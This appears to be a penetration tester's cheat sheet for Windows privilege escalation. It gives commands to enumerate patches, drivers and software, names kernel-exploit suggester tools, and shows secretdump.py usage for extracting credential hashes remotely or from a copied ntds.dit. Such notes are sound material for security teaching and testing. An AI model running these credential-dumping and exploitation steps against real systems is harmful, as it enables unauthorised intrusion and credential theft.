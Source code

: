 

## Check CVE

### Vulnerable Kernel ?

The following command can be used to retrieve installed patches and their date:
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

Search for kernel exploits using scripts:
* [wesng](https://github.com/bitsadmin/wesng)
* [Watson](https://github.com/rasta-mouse/Watson)
* [Sherlock](https://github.com/rasta-mouse/Sherlock)
```
Import-Module ./sherlock.ps1
Find-AllVulns
```
* searchsploit
* post/windows/gather/enum_patches
* post/multi/recon/local_exploit_suggester

### Vulnerable Driver ?
```
driverquery /fo table
```

### Vulnerable Software ?
List installed Software:
```powershell
wmic product get name, version

Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
```
or
```
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -AutoSize
```

## Passwords Mining

### Memory
TODO ( mimikatz)

**secretdump.py**

```bash
secretdump.py "DOMAIN/user[:password]@IP" [-hashes LM:NT]
secretdump.py [-ntds] [-system] [-security] [-bootkey]
#exemple
secretdump.py "MY_DOMAIN/jack:B3stP4ssw0rd@10.10.10.10"
secretdump.py "My_DOMAIN/jacky@10.10.10.10" -hashes :aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
secretdump.py -ntds ntds.dit -system system LOCAL #<= local because you upload the ntds and system from the target to your pc to compute locally
```
